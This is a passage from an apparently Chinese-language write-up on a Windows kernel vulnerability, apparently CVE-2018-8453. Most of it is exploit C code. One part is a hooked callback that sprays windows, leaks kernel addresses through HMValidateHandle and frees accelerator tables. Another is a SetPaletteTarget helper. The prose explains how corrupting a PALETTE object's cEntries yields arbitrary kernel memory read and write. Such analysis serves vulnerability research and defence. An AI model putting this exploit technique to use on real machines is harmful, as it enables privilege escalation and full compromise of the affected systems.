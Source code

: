 ```
            }
 
            hWnd[i] = CreateWindowExW(0, (LPCWSTR)ClassName, NULL, WS_DISABLED, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL);
            if (!hWnd[i])
            {
                ShowError("CreateWindowExW", GetLastError());
                break;
            }
        }
 
        ULONG64 ulTagCls = 0, ulClientDelta = 0;
        PTHRDESKHEAD pTagWndHead = NULL;
        for (i = 0; i < 0x400; i++)
        {
            if (!hWnd[i]) break;
            pTagWndHead = (PTHRDESKHEAD)HMValidateHandle(hWnd[i], TYPE_WINDOW);
            ulClientDelta = (ULONG64)pTagWndHead->pSelf - (ULONG64)pTagWndHead;
            ulTagCls = *(PULONG64)((ULONG64)pTagWndHead + 0xA8) - ulClientDelta;
            g_ulMenuName_2018_8453[i] = ulTagCls + 0x98 + ulClientDelta;
        }
 
        for (i = 0; i < dwCount; i++)
        {
            if (hAccel[i])
            {
                DestroyAcceleratorTable(hAccel[i]);
                hAccel[i] = NULL;
            }
            else break;
        }
    }
 
exit:
    return org_fnDWORD(arg0);
}
```  
  
  
在触发漏洞之前可以看到，创建的两个0x800大小的PALETTE对象的第一个PALETTE对象的cEntries为原来的大小：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8EEad1icibP0gvPohYqbsUl0qkye08L9ibt4Xbmm77tI6yKYiaGSLszh8uKRtOnGAJuuR3ichVNaAPKT2Q/640?wx_fmt=png "")  
  
触发漏洞，进行两次-1操作以后，就被扩大成一个很大的值：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8EEad1icibP0gvPohYqbsUl0qiaKjBnrCdXEMsFGSzLX5ltdK9IQrPLCdMHGF36DdZoSpL7efL8wRY9w/640?wx_fmt=png "")  
  
此时就可以通过函数越界读写相邻的那个PALETTE对象的pFirstColor指针来实现任意地址读写了，相应代码如下：  
```
BOOL SetPaletteTarget(HPALETTE hManager, DWORD dwStart, DWORD dwEntries, PVOID pTargetAddress)
{
    BOOL bRet = TRUE;
 
    // 设置要读写的内存地址
    if (!SetPaletteEntries(hManager, dwStart, dwEntries, (PPALETTEENTRY)&pTargetAddress))
    {
        bRet = FALSE;
        ShowError("SetPaletteEntries", GetLastError());
        goto exit;
    }
exit:
    return bRet;
}
 
```